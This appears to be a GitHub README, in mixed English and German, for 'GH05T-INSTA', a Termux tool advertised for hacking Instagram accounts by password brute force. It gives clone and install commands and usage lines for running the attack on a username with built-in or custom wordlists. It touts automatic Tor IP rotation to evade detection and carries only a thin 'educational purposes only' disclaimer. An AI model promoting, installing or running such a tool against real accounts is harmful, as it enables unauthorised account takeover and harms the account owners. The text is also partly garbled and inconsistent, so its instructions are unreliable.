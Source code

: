 <b>Wenn Sie ein Grey-Hat-Hacker sind, ist dies ein sehr nützliches Skript für Sie</b>

<i>TERMUX USERS  { No Root }</i>
<img src="https://github.com/GH05T-HUNTER5/GH05T-INSTA/blob/main/.img/The-Attack.jpeg" alt="bruteforce attack ">
<b>You can hack Instagram accounts with the help of this tool</b>
<br><b><del>PHISHING</del> BruteForce Attack</b>

<b><i>Why : GH05T-INSTA</i></b>

<i>You can find your Instagram account password.</i>

<i>Hier führen wir mit Hilfe eines Pip-Pakets einen Brute-Force-Angriff auf das Instagram-Konto durch</i>

<i>Total Updates : 3</i>

<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/gh05thunter5.jpg" alt="gh05t-logo">

<b>Do you believe your Instagram account is secure?</b>
<li>Auto Attack</li>
<pre>
$ If you enter the username, it will attack itself


$ Once the password is received, a warning message will also appear

$ Your IP address will change automatically

@ Ihre IP-Adresse ändert sich automatisch

Tor network helps to change IP
</pre>

# Qualitäten

<b>Automatische Passworterkennung und Benachrichtigung  an  Sie { Automatic password detection  }
<br><br><b>Damit können Sie das Passwort leicht finden { With it, you can easily find the password }
<br><br><b>Password is updated and uploaded every three months</b>
#

<i>This tool is not ready, but you can use it</i>
{Update this tool after every three months}

<i>Package Installation</i>

```
pkg install git
```
```
pkg install python
```
```
pkg install python2
```
```
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
```
```
cd GH05T-INSTA
```
```
python install.py
```
```
cd $HOME
```
```
rm -rf GH05T-INSTA
```

<center>After</center>

```
gh05t
```

`
Let us know if you encounter any error while running the tool
`

<b>MY FIRST : <a href="https://github.com/GH05T-HUNTER5/GH05T-INSTA/issues/new/choose">ISSUES</a></b>

# After Try This Commands

<i>This tool will run if you type gh05t</i>

<em>We think the command line is more useful</em>

```
$ gh05t

{ After entering this command you will get an option for everything }
{ Nach Eingabe dieses Befehls erhalten Sie eine Option für alles }

$ gh05t --user username --pass 1

{ After running this command the brute force will start }
{ Nach Ausführung dieses Befehls wird die Brute Force gestartet }
(             How To Use            )
( gh05t --user mr_77778#8 --pass 2 )
( gh05t --user mr_fqake#@ --pass 3 )
( gh05t --user jdjza888#8 --pass 4 )
( gh05t --user gersman_9#6# --pass 6 )
( gh05t --user mr_77bd778#8 --pass 7 )
( gh05t --user ar_fake#@ --pass 8 )
( gh05t --user li888#8 --pass 9 )
( gh05t --user mtrman_9#6# --pass 10 )
( gh05t --user jr_77778#8 --pass 11 )
( gh05t --user ig_fake#@ --pass 12 )
( gh05t --user hsjza888#8 --pass 13 )
( gh05t --user gelian_9#6# --pass 14 )
( gh05t --user gehsghan_9#6# --pass 15 )
( gh05t --user jr7778#s8 --pass 16 )
( gh05t --user igahacke#@ --pass 17 )
( gh05t --user hsjd888#8 --pass 18 )
( gh05t --user gehdhan_9#6# --pass 19 )
( gh05t --user gehsgan_9#6# --pass 20 )
(     Total Password List 20        )

$ gh05t --user username --passadd Your-Pass

{ After running this command the brute force will start }
{ Nach Ausführung dieses Befehls wird die Brute Force gestartet }

(                       How To Use                        )
( gh05t --user mr_77778#8 --passadd /data/data/com.termux/files/home/password.txt )
( gh05t --user mr_fake#@ --passadd /data/data/com.termux/files/home/storage/shared/worldlist.txt )
( gh05t --user liza888#8 --passadd /data/data/com.termux/files/home/storage/downloads/pizza.txt
( gh05t --user german_9#6# --passadd /data/data/com.termux/files/home/my-pass.txt )
(                Enter your password location and name                   )

$ gh05t --help

{ Try this command for informatio okn about this tool }
{ Probieren Sie diesen Befehl aus, um Informationen zu diesem Tool zu erhalten }

$ ghost --check

{ To reinstall deleted files (FPP) solution }
{ Um gelöschte Dateien neu zu installieren  (FPP) solution }

$ gh05t --update

{ Try this command and you will get new updates }
{ Probieren Sie diesen Befehl aus und Sie erhalten neue Updates }

$ gh05t --error

{ Run this command if you encounter errors while running this tool }
{ Führen Sie diesen Befehl aus, wenn beim Ausführen dieses Tools Fehler auftreten }

$ gh05t developer 

{ To contact the developer }
{ Um den Entwickler zu kontaktieren }

$ gh05t --cookies

{ After running this command you can see the username }
{ Nachdem Sie diesen Befehl ausgeführt haben, können Sie den Benutzernamen sehen }

$ gh05t uninstall all

{ Delete Gh05t }
{ Removes all packages related to gh05t }
{ Entfernt alle Pakete, die sich auf gh05t beziehen }

```

# Main Menu
<em>You can use it in two ways</em><br>
<br>$ just type : gh05t</b><br>
<img src="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/gh05t.jpg" alt="menu">

<i>WORKING DEMO <a href="https://raw.githubusercontent.com/GH05T-HUNTER5/GH05T-INSTA/main/.img/Gh05t-attack.jpg">GH05T ATTACK</a></i>

有了這個，您可以立即暴力破解您的 Instagram 帳戶

Es funktioniert gut, da es mit Instagram-py erstellt wurde

इंस्टाग्राम हैकिंग

<h1>Notice</h1>

`TO BE USED FOR EDUCATIONAL PURPOSES ONLY`

```
                                                                                          The use of the GH05T-INSTA is COMPLETE RESPONSIBILITY of the END-USER. Developers assume NO liability and are NOT responsible for any misuse or damage caused by this program.
```


<b>DEVELOPER</b>

<a href="https://github.com/GH05T-HUNTER5">GitHub</a>

<a href="https://t.me/GH05T_HUNTER5">Telegram</a>

<a href="https://www.instagram.com/gh05t_hunter5/">Instagram</a>

<a href="https://youtube.com/channel/UCLoaCSIy4qzx7X2HCjbD8LA">YouTube</a>

<a href="https://mobile.twitter.com/gh05_thunter5">Twitter</a>

<a href="https://gh05thunter5.blogspot.com/2022/07/blog-post.html?m=1">Blogs</a>
